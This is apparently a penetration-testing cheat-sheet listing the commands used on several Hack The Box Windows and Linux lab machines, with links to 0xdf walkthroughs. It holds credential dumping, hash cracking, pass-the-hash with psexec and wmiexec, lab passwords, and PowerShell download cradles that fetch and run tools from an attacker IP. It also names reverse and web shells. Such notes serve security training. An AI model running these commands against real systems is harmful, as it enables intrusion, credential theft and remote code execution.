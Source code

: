 # Win-Conceal
https://0xdf.gitlab.io/2019/05/18/htb-conceal.html
```
nmap -sU
snmpwalk
john
ipsec up conceal
ftp
webshell .asp
reverse shell - PowerShell
JuicyPotato
```


# Win-Forest
https://0xdf.gitlab.io/2020/03/21/htb-forest.html
```
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 > ldapsearch.txt
enum4linux 10.10.10.161
./GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/’
john hashsvc -w=/usr/share/wordlists/rockyou.txt
crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
iex(new-object net.webclient).downloadstring("http://10.10.14.13/SharpHound.ps1")
invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
./smbserver.py share . -smb2support -username df -password df
iex(new-object net.webclient).downloadstring("http://10.10.14.13/PowerView.ps1")
./secretsdump.py svc-alfresco:s3rvice@10.10.10.161
./wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```


# Win-Active
https://0xdf.gitlab.io/2018/12/08/htb-active.html
```
enum4linux 10.10.10.100
smbclient \\\\10.10.10.100\\Replication
gpp-decrypt
ldapsearch -x -b "dc=active,dc=htb" -H ldap://10.10.10.100 -D SVC_TGS -w GPPstillStandingStrong2k18 > ldapsearch.txt
cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
john hashadmin -w=/usr/share/wordlists/rockyou.txt
./wmiexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
./psexec.py Administrator:Ticketmaster1968@10.10.10.100
```


# Win-Search
https://0xdf.gitlab.io/2022/04/30/htb-search.html
```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
sheetProtection
pfx2john staff.pfx > pfx_hash
./SharpHound.exe
./smbserver.py share . -smb2support -username df -password df
./BloodHound
./wmiexec.py 'search/tristan.davies:0xdf0xdf!!!@10.10.11.129'
```


# Win-StreamIO
```
SQL Injection
ffuf with authentication
evil-winrm
winPEAS
BloodHound
PowerView.ps1
```





# Lin-Bashed
https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
/dev/phpbash.php
reverse shell - python
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -l
sudo -u scriptmanager bash -i
python -c shell.py
```


# Lin-SolidState
https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html
```
nc 10.10.10.51 4555
telnet 10.10.10.51 110
Escape rbash
LinEnum.sh
reverse shell - nc
move to bash
```


# Lin-Jarvis
https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html
```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum.sh
PrivEsc - systemctl
```


# Lin-Haircut
/exposed.php

# Lin-Backdoor
https://0xdf.gitlab.io/2022/04/23/htb-backdoor.html
```
nmap -p- 10.10.11.125
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://backdoor.htb/wp-content/FUZZ -e .aspx,.php,.txt,.html
WP Plugins-EbookDL Dir Trav
gdbserver RCE
ps & screen
```
